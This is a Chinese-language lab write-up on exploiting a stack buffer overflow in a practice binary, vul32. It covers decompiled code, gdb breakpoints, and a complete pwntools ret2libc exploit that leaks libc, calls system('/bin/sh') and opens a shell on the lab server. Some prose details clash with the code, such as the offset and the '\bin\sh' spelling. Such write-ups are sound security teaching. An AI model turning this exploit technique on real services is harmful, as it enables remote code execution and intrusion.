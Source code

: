 # Lab1 - vul32

## 环境配置

在 Windows 11 PC 上安装 IDA 7.7，配合服务器 Ubuntu 20.04.5 LTS 64 位，使用 gdb 调试。

## 安全措施检查

使用`checksec`检查目标程序的安全性，

```shell
checksec --format=json --file=./vul32/vul32
```

得到如下结果，

```json
{ 
  "./vul32/vul32": { 
    "relro":"partial",
    "canary":"yes",
    "nx":"yes",
    "pie":"no",
    "rpath":"no",
    "runpath":"no",
    "symbols":"yes",
    "fortify_source":"yes",
    "fortified":"0",
    "fortify-able":"2" 
  } 
}
```

## 分析过程

使用 IDA 打开 vul32 可执行程序，使用 F5 将可执行程序 decompile 成 C Pseudocode. 能在左侧 Functions 栏中看到各个函数的信息，找到其中的 `main()` 函数作为入口。

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);
  write(1, wel, 0x1Eu);
  dovuln();
  return 0;
}
```

依次查看调用的各个函数，发现其中漏洞代码出现在 `dovuln()` 函数中，对其进行 decompile.

```c
int dovuln()
{
  int v0; // eax
  char buf; // [esp+4h] [ebp-44h] BYREF
  char v3[51]; // [esp+5h] [ebp-43h] BYREF
  int v4; // [esp+38h] [ebp-10h]
  unsigned int v5; // [esp+3Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  memset(v3, 0, 0x30u);
  v4 = 0;
  while ( 1 )
  {
    if ( read(0, &buf, 1u) != 1 )
      exit(0);
    if ( buf == 10 ) // LF/NL(Line Feed/New Line)
      break;
    v0 = v4++;
    v3[v0] = buf;
  }
  return puts(v3);
}
```

分析以上代码，发现可以利用 `while(1)` 实现输入读入的过程，不检查输入长度，只依赖检查输入字符是不是换行符 `LF/NL(Line Feed/New Line)(ASCII #10)`结束输入。因此可以利用缓冲区溢出漏洞，覆盖返回地址，实现任意代码执行。

根据 IDA 的注释，同时参考栈的结构，可以发现用于保存输入字符的数组`v3` 如果发生溢出，可以影响到变量`v4`，而`v4`控制着下一个字符在`v3`中的 offset 量，因此我们可以得到如下攻击思路，

1. 构造恶意输入，导致数组`v3`溢出覆盖变量`v4`；
2. 通过修改`v4`的值，控制下一个字符的 offset 量，使得下一个字符覆盖返回地址，而根据栈的结构，**返回地址位于`ebp`上方的 4 Bytes**；
3. 攻击目标是通过调用`libc`的函数，在目标机器上执行`system('\bin\sh')`指令；

使用如下代码在 `vul32` 中查找字符串`/bin/sh`，未能查找到，因此需要在`libc`中查找，在 `0x0015912b` 处找到。

```shell
$ ROPgadget --binary vul32/vul32 --string '/bin/sh'
Strings information
============================================================
```

```shell
$ ROPgadget --binary vul32/libc.so.6 --string '/bin/sh'
Strings information
============================================================
0x0015912b : /bin/sh
```

因此，我们需要在`libc`中同时找到`system`函数地址和`/bin/sh`字符串地址，以此拼接为恶意负载。

## 使用pwntools构造恶意负载

整体来说，攻击思路如下，

1. 构造恶意输入，导致数组`v3`溢出覆盖变量`v4`；
2. 通过修改`v4`的值，控制下一个字符的 offset 量，使得下一个字符覆盖返回地址，由于ASLR的存在，需要先通过`puts()`函数泄露`libc`基址，并让`puts()`函数返回到`main()`函数中，从而可以再次调用`dovuln()`函数；
3. 获取`libc`中`__libc_start_main()`地址，和上一步泄露的`libc`随机化的地址，计算出`libc`基址；
4. 获取`system`函数地址和`/bin/sh`字符串地址，加上`libc`基址，拼接为恶意负载；
5. 将恶意负载发送给服务端，触发漏洞，执行`system('\bin\sh')`指令；

在IDA中查看`dovuln()`相关的汇编指令，可以找到其入口地址和结束时调用`puts()`的地址，分别为`0x080485CB`和`0x08048641`，如下方两图所示，

![](assets/entrance_of_dovuln.png)

![](assets/exit_of_dovuln.png)

因此可以在`gdb`中对此处打下断点，用于观察调用栈及寄存器情况。

启动`gdb`，并加载`vul32`，并在`dovuln()`函数入口处打下断点，如下，

```shell
$ gdb vul32/vul32
(gdb) b *0x080485CB
Breakpoint 1 at 0x80485cb
(gdb) b *0x08048641
Breakpoint 2 at 0x8048641
```

在 IDA 的分析中，我们可以知道 `v4` 位于 ebp - 0x10 处，`v3` 位于 ebp - 0x43处，因此我们需要覆盖 `v4` 的内容为 0x47，查 ASCII 表有 0x47 对应的字符为 `G`，因此我们需要构造 0x43 个 `A`，再加上 1 个 `G`，就可以继续修改返回地址了。

```python

在 Breakpoint 2 处，输入测试的字符串，如下，

```text
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAGBBBBBBBBBBB
```

并查看调用栈 `x/32xw $esp`，如下图所示，

![](assets/stack.png)

其中能看到对应 `A` 的 0x41，在一些字节后能看到我们输入的测试字符串 `B`（对应 0x42），说明我们的栈溢出攻击成功了。

随后使用 `pwntools` 完成如构造真实攻击负载、计算偏移地址、解析输出等功能，即完成了本次漏洞利用的全部过程，含有注释的代码如附录A所示。

## 附录A 完整的漏洞利用代码

```python
from pwn import *

# context.terminal = ['tmux', 'splitw', '-h']

# sh = process('./vul32/vul32')
# gdb.attach(sh)
sh = remote('cssc.vul337.team', 49294)

# sh = pwnlib.gdb.debug('./vul32/vul32') # not working, don't know why

vul32 = ELF('./vul32/vul32') # load the vul32 file
puts_plt = vul32.plt['puts'] # get the address of the puts function
libc_start_main_got = vul32.got['__libc_start_main'] # get the address of the __libc_start_main function
main = vul32.symbols['main'] # get the address of the main function

libc = ELF('./vul32/libc.so.6') # load the libc file
system_addr = libc.symbols['system'] # get the address of the system function in libc
binsh_addr = next(libc.search(b'/bin/sh')) # get the address of the "/bin/sh" string in libc

# create the payload 1, used to leak the address of the __libc_start_main function
payload = flat(['A' * 0x33, "G", puts_plt, main, libc_start_main_got])
sh.sendlineafter('Plz input something:\n', payload) # send the payload 1
sh.recv() # receive the output of the payload 1
sh.recv()

libc_start_main_addr_leak = u32(sh.recv()[1:5]) # starts with a "/n" character
# libc_start_main_addr_leak = u32(sh.recv()[len(flat(['A' * 0x33, "G"])) + 1:len(flat(['A' * 0x33, "G"])) + 5]) # this line is needed in local environment

libc_base = libc_start_main_addr_leak - libc.symbols['__libc_start_main'] # calculate the base address of libc

system_addr = libc_base + system_addr # calculate the address of the system function in libc
binsh_addr = libc_base + binsh_addr # calculate the address of the "/bin/sh" string in libc

payload = flat(['A' * 0x33, "G", system_addr, "bbbb", binsh_addr]) # create the payload 2, used to get the shell
sh.sendline(payload) # send the payload 2
sh.interactive() # get the shell
sh.close() # close the connection
```


## 附录B 各个函数的伪代码汇总

```c
/*  main() */
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);
  write(1, wel, 0x1Eu);
  dovuln();
  return 0;
}
```

```c
/*  dovuln() */
int dovuln()
{
  int v0; // eax
  char buf; // [esp+4h] [ebp-44h] BYREF
  char v3[51]; // [esp+5h] [ebp-43h] BYREF
  int v4; // [esp+38h] [ebp-10h]
  unsigned int v5; // [esp+3Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  memset(v3, 0, 0x30u);
  v4 = 0;
  while ( 1 )
  {
    if ( read(0, &buf, 1u) != 1 )
      exit(0);
    if ( buf == 10 )
      break;
    v0 = v4++;
    v3[v0] = buf;
  }
  return puts(v3);
}
```
